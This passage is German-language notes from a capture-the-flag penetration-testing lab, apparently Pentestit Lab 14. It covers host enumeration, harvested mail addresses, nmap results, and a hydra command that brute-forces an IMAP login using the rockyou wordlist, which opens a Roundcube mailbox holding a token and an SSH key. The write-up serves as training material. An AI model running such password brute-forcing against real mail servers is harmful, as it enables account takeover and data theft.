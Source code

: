 # Lab 14

https://lab.pentestit.ru/pentestlabs/14
Tools: Debian 10, nmap,wpscan,dirb,Metasploit,hydra, rockyou.txt

Gateways: 
  * 192.168.101.14
  * 192.168.101.15
  
## Mail - Token 

Host: 192.168.101.14

- in /etc/hosts eintragen: "192.168.101.14 site.test.lab"
- Mailadressen auf http://site.test.lab:
  * sidorov@test.lab
  * ivanov@test.lab
  * petrov@test.lab (IT)
  * support@test.lab
- Portscan mit nmap: 
  * 80/tcp   open  http    nginx 1.18.0
  * 143/tcp  open  imap    Dovecot imapd
  * 8080/tcp open  http    nginx (Roundcube!)
- hydra site.test.lab imap -l support@test.lab -P rockyou.txt
   => pwd="PASSWORD"
   => Login in Roundcube (http://site.test.lab:8080)
   => Mailbox: Mail-Token, SSH-Key (ivanov), client.jar (dev), vpn.zip (gagarin)
  

